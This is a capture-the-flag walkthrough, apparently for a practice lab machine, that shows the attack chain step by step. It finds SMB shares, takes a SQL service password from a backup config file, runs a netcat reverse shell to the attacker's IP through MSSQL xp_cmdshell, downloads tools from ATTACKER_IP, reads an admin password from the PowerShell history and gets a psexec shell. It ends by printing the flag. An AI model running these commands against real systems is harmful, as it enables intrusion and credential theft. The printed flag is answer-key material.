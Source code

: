 First is to do a `smbclient`

```
└─# smbclient -L /10.129.165.52/     
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

THen we will check the `backups` folder

```
└─# smbclient //10.129.165.52/backups
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 06:20:57 2020
  ..                                  D        0  Mon Jan 20 06:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 06:23:02 2020

                5056511 blocks of size 4096. 2615814 blocks available
smb: \> 
```

We cna use `GET` command to download the file

```
get prod.dtsConfig
```

Opening the file, we can see a service account.

```
└─# cat prod.dtsConfig                                                
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

We can then use `msfconsole` to get RCE.

```
use auxiliary/admin/mssql/mssql_exec
msf6 auxiliary(admin/mssql/mssql_exec) > options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting               Required  Description
   ----                 ---------------               --------  -----------
   CMD                  c:\Users\Public\nc.exe -e cm  no        Command to execute
                        d.exe 10.10.14.215 9001
   PASSWORD             M3g4c0rp123                   no        The password for the specified username
   RHOSTS               10.129.165.52                 yes       The target host(s), see https://docs.metasploit.co
                                                                m/docs/using-metasploit/basics/using-metasploit.ht
                                                                ml
   RPORT                1433                          yes       The target port (TCP)
   TDSENCRYPTION        false                         yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                   yes       Technique to use for command execution (Accepted:
                                                                xp_cmdshell, sp_oacreate)
   USERNAME             sql_svc                       no        The username to authenticate as
   USE_WINDOWS_AUTHENT  true                          yes       Use windows authentification (requires DOMAIN opti
                                                                on set)
```

We then can upload and use `nc.exe` to get a reverse shell.

To use `wget` command to download files from our machine.

`powershell.exe wget http://ATTACKER_IP:PORT/FILENAME -OutFile FILENAME`

We then cause `WinPEASx64.exe` (https://github.com/carlospolop/PEASS-ng/releases/tag/20231015-0ad0e48c) to check any thing that we can use to escalate or privilege.

We see an admin credential on this location

`C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```
PS C:\users\sql_svc\AppData\Roaming\Microsoft\WIndows\PowerSHell\PSReadLine> type ConsoleHost_history.txt
type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

We then can use `psexec.py` to connect to the machine as the administrator.

```
(root㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─# python3 psexec.py administrator@10.129.165.52
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.165.52.....
[*] Found writable share ADMIN$
[*] Uploading file kAEkujWp.exe
[*] Opening SVCManager on 10.129.165.52.....
[*] Creating service tcEU on 10.129.165.52.....
[*] Starting service tcEU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

 Directory of c:\Users\Administrator\Desktop

07/27/2021  02:30 AM    <DIR>          .
07/27/2021  02:30 AM    <DIR>          ..
02/25/2020  07:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,714,374,144 bytes free

c:\Users\Administrator\Desktop> type root.txt
b91ccec3305e98240082d4474b848528
c:\Users\Administrator\Desktop> 
```
